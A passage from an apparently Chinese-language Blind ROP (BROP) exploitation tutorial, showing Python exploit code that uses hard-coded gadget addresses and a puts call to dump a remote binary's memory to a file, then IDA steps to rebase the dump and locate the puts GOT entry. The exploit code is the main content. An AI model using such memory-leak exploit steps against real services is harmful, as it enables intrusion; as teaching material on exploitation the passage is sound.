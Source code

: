 ```python
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是“”,那说明我们遇到了'\x00'，因为puts是输出字符串，字符串是以'\x00'为终止符的。之后利用ida打开binary模式，首先在edit->segments->rebase program 将程序的基地址改为0x400000，然后找到偏移0x560处，如下

```asm
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ; 
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```

然后按下c,将此处的数据转换为汇编指令，如下

```asm
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```
